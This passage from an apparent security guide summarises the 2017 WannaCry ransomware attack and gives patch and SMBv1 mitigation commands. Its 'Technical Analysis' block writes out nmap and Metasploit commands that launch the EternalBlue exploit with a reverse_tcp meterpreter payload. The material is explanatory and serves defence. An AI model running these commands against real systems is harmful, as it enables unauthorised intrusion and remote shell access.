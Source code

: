 ### Overview
**Target:** Global ransomware attack  
**Year:** May 2017  
**Impact:** 200,000+ computers, 150+ countries  
**Ransom:** $300-600 in Bitcoin  

### Attack Mechanism

```
WannaCry Kill Chain:
├── Propagation: EternalBlue (MS17-010)
├── Encryption: AES-128 & RSA-2048
├── Ransom Note: Multiple languages
└── Kill Switch: Hardcoded domain registration
```

### Technical Analysis

```bash
# EternalBlue exploitation
# SMB vulnerability in Windows

# Check if system is vulnerable
nmap -p 445 --script smb-vuln-ms17-010 <target>

# Metasploit exploitation
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

### Prevention & Mitigation
```bash
# Apply MS17-010 patch
wusa.exe Windows-KB4012212-x64.msu /quiet /norestart

# Disable SMBv1
Disable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol

# Block SMB ports at firewall
# TCP 445, 139
# UDP 137, 138

# Enable Windows Firewall
netsh advfirewall set allprofiles state on
```

[Return to Table of Contents](#table-of-contents---enhanced-edition)

---

## EternalBlue Exploitation

